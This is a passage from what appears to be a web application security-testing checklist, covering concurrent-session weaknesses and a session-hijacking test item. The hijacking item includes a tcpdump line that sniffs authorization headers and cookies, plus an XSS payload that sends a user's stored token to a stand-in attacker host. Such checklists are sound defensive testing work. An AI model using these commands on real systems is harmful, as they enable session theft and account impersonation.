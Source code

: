 **Expected Output**: Depends on business requirements - may allow or restrict.

**Vulnerability Confirmation**:
```
Security concerns:
- Unlimited concurrent sessions
- No notification of new login
- Cannot view active sessions
- Cannot terminate other sessions
- No IP/device tracking
- Account sharing not detected
```

**Generic Mitigation**:
- Implement session limits per user
- Notify users of new logins (email/push)
- Show active sessions in settings
- Allow users to terminate sessions
- Track device/IP/location
- Option to disable concurrent logins
- Alert on suspicious login patterns
- Force re-authentication for sensitive actions

---

### 25. Session Hijacking

**Issue Description**: Attacker steals or intercepts session tokens to impersonate legitimate users.

**Execution Steps**:
```bash
# Test session hijacking vectors:

# 1. Network sniffing (if HTTP used)
tcpdump -i any -A | grep -i "authorization\|cookie"

# 2. XSS to steal tokens
<script>
fetch('https://attacker.com/?token=' + 
      localStorage.getItem('token'))
</script>

# 3. Session token in URL
https://app.example.com/page?session=ABC123
# Token leaked via Referer header

# 4. Predictable tokens
Request multiple sessions, analyze for patterns

# 5. Session token in logs
Check if tokens appear in application logs

# Using Burp Suite:
1. Capture legitimate session token
2. Use token in different browser/device
3. Check if validation occurs
4. Modify token slightly
5. Test token reuse

# Test token binding:
- Change User-Agent
- Change IP address
- Change device fingerprint
```
